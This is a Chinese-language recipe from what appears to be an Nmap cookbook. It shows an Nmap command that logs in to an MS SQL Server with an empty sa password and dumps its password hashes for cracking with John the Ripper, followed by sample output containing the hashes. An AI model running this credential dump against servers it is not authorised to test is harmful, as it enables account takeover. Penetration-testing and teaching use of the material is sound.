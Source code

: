 在获得对 MS SQL server 的访问权限后，我们可以转储 MS SQL server 的所有密码哈希，以危害其他帐户。Nmap 可以帮助我们以破解工具**John the Ripper**可用的格式检索这些散列。

此配方显示了如何使用 Nmap 转储 MS SQL 服务器的可破解密码哈希。

## 怎么做。。。

要使用空的系统管理员密码转储 MS SQL server 的所有密码哈希，请运行以下 Nmap 命令：

```
$ nmap -p1433 --script ms-sql-empty-password,ms-sql-dump-hashes <target>

```

密码散列将包含在`ms-sql-dump-hashes`脚本输出部分：

```
PORT     STATE SERVICE  VERSION 
1433/tcp open  ms-sql-s Microsoft SQL Server 2011 
Service Info: CPE: cpe:/o:microsoft:windows 

Host script results: 
| ms-sql-empty-password: 
|   [192.168.1.102\MSSQLSERVER] 
|_    sa:<empty> => Login Success 
| ms-sql-dump-hashes: 
| [192.168.1.102\MSSQLSERVER] 
|     sa:0x020039AE3752898DF2D260F2D4DC7F09AB9E47BAB2EA3E1A472F49520C26E206D0613E34E92BF929F53C463C5B7DED53738A7FC0790DD68CF1565469207A50F98998C7E5C610 
|     ##MS_PolicyEventProcessingLogin##:0x0200BB8897EC23F14FC9FB8BFB0A96B2F541ED81F1103FD0FECB94D269BE15889377B69AEE4916307F3701C4A61F0DFD9946209258A4519FE16D9204580068D2011F8FBA7AD4 
|_    ##MS_PolicyTsqlExecutionLogin##:0x0200FEAF95E21A02AE55D76F68067DB02DB59AE84FAD97EBA7461CB103361598D3683688F83019E931442EC3FB6342050EFE6ACE4E9568F69D4FD4557C2C443243E240E66E10 

```

## 它是如何工作的。。。

MS SQL Server 通常在 TCP 端口 1433 上运行。参数`-p1433 --script ms-sql-empty-password,ms-sql-dump-hashes`启动脚本`ms-sql-empty-password`，该脚本找到一个空的根 sysadmin 帐户，然后如果发现 MS SQL server 在端口 1433 上运行，则运行脚本`ms-sql-dump-hashes`。

脚本`ms-sql-dump-hashes`由 Patrik Karlsson 编写，其功能是检索 MS SQL Server 的密码散列，其格式可供破解工具（如 John The Ripper）使用。此脚本依赖于`mssql`库。您可以在`http://nmap.org/nsedoc/lib/mssql.html`了解更多信息。

## 还有更多。。。

如果 SMB 端口已打开，您可以通过设置参数`mssql.instance-all`或`mssql.instance-name`来使用管道运行此脚本：

```
PORT    STATE SERVICE 
445/tcp open  microsoft-ds 

Host script results: 
| ms-sql-empty-password: 
|   [192.168.1.102\MSSQLSERVER] 
|_    sa:<empty> => Login Success 
| ms-sql-dump-hashes: 
| [192.168.1.102\MSSQLSERVER] 
|
  sa:0x020039AE3752898DF2D260F2D4DC7F09AB9E47BAB2EA3E1A472F49520C26E206D0613E34E92BF929F53C463C5B7DED53738A7FC0790DD68CF1565469207A50F98998C7E5C610 
|     ##MS_PolicyEventProcessingLogin##:0x0200BB8897EC23F14FC9FB8BFB0A96B2F541ED81F1103FD0FECB94D269BE15889377B69AEE4916307F3701C4A61F0DFD9946209258A4519FE16D9204580068D2011F8FBA7AD4 
|_    ##MS_PolicyTsqlExecutionLogin##:0x0200FEAF95E21A02AE55D76F68067DB02DB59AE84FAD97EBA7461CB103361598D3683688F83019E931442EC3FB6342050EFE6ACE4E9568F69D4FD4557C2C443243E240E66E10 

```
